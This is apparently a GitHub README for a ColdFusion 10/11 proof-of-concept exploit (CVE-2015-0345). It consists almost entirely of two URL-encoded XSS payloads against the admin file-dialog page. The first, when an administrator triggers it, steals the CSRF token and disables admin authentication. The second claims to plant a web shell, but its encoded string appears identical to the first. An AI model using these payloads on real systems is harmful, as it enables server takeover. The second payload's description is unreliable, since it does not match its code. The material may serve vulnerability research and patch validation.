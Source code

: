 ColdFusion 10.x 11.x XSS -> RCE PoC Exploits
------------

This repo contains XSS vectors for CVE-2015-0345 (APSB15-07) that allow for the ability to gain remote command execution on ColdFusion installations.

This exploit is only valid for ColdFusion 10 and 11 installations. Specifically, ColdFusion 11, Update 11 and ColdFusion 10, Update 16 fixes both of these issues. More information on this disclosure can be found [here](https://helpx.adobe.com/security/products/coldfusion/apsb15-07.html).

##Payload 1

This payload disables the requirement of a password on the ColdFusion administration panel. If this payload is delivered and ran by a ColdFusion administrator, the /CFIDE/administrator directory can be accessed completely, without authentication.

`https://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`

##Payload 2

This payload attempts to upload a CFM shell to ColdFusion via the scheduling of tasks and modification of 404 and 500 error templates. If this payload delivered and ran by a ColdFusion administrator, a web-shell is then made available at `/404.cfm` and `/500.cfm`.

`https://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`
